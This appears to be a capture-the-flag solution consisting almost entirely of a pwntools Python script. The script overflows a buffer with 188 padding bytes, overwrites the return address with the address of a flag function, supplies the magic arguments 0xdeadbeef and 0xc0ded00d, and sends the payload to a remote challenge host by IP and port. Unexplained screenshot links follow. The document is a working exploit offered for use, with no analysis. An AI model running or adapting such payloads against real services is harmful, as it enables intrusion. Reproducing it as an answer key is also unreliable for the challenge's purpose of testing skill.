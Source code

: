 ###

#Python Code
from pwn import *
flag = 0x080491e2
host = "139.59.166.56"
port = 32005
deadbeef = 0xdeadbeef
codedood = 0xc0ded00d
payload = b"A"*188 + p32(flag) + b"A"*4 + p32(deadbeef) + p32(codedood)
p = remote (host, port)
p.sendline(payload)
p.interactive()

![image](https://github.com/user-attachments/assets/a0b6a551-4256-4420-9517-9527dfd3724c)

![image](https://github.com/user-attachments/assets/b3101595-1020-438e-85a8-d241f88f865d)

![image](https://github.com/user-attachments/assets/e6b3c6ab-8c5e-40f1-93ba-768a8d175cd7)

